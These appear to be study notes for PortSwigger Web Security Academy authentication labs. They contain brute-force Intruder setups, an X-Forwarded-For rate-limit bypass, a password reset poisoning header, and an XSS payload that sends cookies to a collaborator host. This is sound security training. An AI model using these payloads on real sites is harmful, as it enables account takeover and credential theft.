 # Authentication vulnerabilities

## Username enumeration via different responses

Use Intruder with username and pw as sniper targets

## 2FA simple bypass

1. Login as `wiener:peter`
1. Use portswigger e-mail to login with 2FA
1. capture e-mail change request into repeater
1. logout
1. login as `carlos:montoya`
1. copy session token from the new session
1. insert session token in the prev. captured request to change the e-mail
1. insert wrong code and login again as carlos
1. recieve 2FA code via e-mail
1. ???
1. Profit

##  Password reset broken logic

The `temp-forgot-password` parameter is not checked, so we can just send a
request in carlos' name

``` 
POST /forgot-password/?temp-forgot-password-token HTTP/2
Host: 0a3c00e903fa9e9980fe764f00c60058.web-security-academy.net
Cookie: session=ET1xcusj0lhDr3wWMSd1qCOcQLItAXnW
[...]

temp-forgot-password-token&username=carlos&new-password-1=bla&new-password-2=bla
```

## Username enumeration via response timing

- Login takes longer for valid users.
- there is a Brute force prevention in place.
  - `X-Forwarded-For:§1§` header can be used to evade this.

Use Intruder with Pitchfork:

- **Parameter 1 `X-Forwarded-For:§1§`**: Numbers 1-100
- **Parameter 2 `Username=§2§`**: Username list

We find that `ec2-user` is valid. Now we can do the same again with the PW list.

Final Payload:

```
POST /login HTTP/2
Host: 0a7e00bc04419db78499a2da00be0045.web-security-academy.net
Cookie: session=4MtRH2xLQGE0NrFKaQvHcOVy38p2Fdx0
X-Forwarded-For:§1§

username=ec2-user&password=§dadadaaaaaaaaaaaaaaaaaaaaaa1111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111a
```

## Broken brute-force protection, IP block

The flaw in this Lab is that the request counter gets reset after each
successful login. --> We can test one combination and then login with the
provided credentials.

Prepare two lists

- **Users:** `carlos` and `wiener` turn by turn (100x)
- **Passwords:** `entry from PW list` and `peter` switching each time.

How to do that quickly in vim:

```
# Userlist
100i carlos<CR>wiener<ESC>
:%y+

# Within PW list
gg
qq
o peter<ESC>j
q
200@q
:%y+
```

In the Intruder Settings set the max concurrent Payloads to 1 and a delay of  
`300 ms`.

## Username enumeration via account lock

1. Try to brute force Usernames 3 times
1. One response has a longer length.
  - Error Message: `You have made too many incorrect login attempts. Please try again in 1 minute(s).`
  - --> We have our user
1. Try PW Brute force using `X-Forwarded-For` Header

```
X-Forwarded-For: §1§

username=accounting&password=§bla§
```

It seems that the lock has no effect if the real credentials are supplied.
The answer with the smallest response contains the valid credentials.

![no-lock](images/no-lock.png)

## 2FA broken logic

Brute force in order:

1. PW
2. 2FA code (using the `session` and `verify` cookie values from carlos)

```
mfa-code=§1111§
```

Intruder > Sniper: Set payload from 0000 to 9999 with 1 as step.


## Offline password cracking

Place XSS in comments of posts

```
<img src=x onerror=this.src='http://<BURP-COLLAB-URL>/?'+document.cookie;>
```

Look for an answer from carlos:

```
GET /?secret=xHtfxrM68cuhFuEY30ETrSrX0eAp9hrR;%20stay-logged-in=Y2FybG9zOjI2MzIzYzE2ZDVmNGRhYmZmM2JiMTM2ZjI0NjBhOTQz HTTP/1.1

# stay logged-in decode:
carlos:26323c16d5f4dabff3bb136f2460a943
```

Use <https://crackstation.net/> to check the hash.  --> `onceuponatime` (md5)


## Password reset poisoning via middleware

In this lab we can manipulate the `X-Forwarded-Host` header to generate password 
reset links for a host we control.

1. Use Repeater for the `POST /forgot-password` request
1. Set username to carlos
1. Add `X-Forwarded-Host: exploit-0a2f00cd041f7e3f823151b001690060.exploit-server.net/exploit` Header
1. View the server log:
        `GET /exploit/forgot-password?temp-forgot-password-token=SOEFGdL2dqdeCXu0xrqN2ndOQwXSGwnp HTTP/1.1`

## Password brute-force via password change

If the two new passwords do not match, a different message is returned

Intruder payload: `username=carlos&current-password=§peter§&new-password-1=blu&new-password-2=bla`

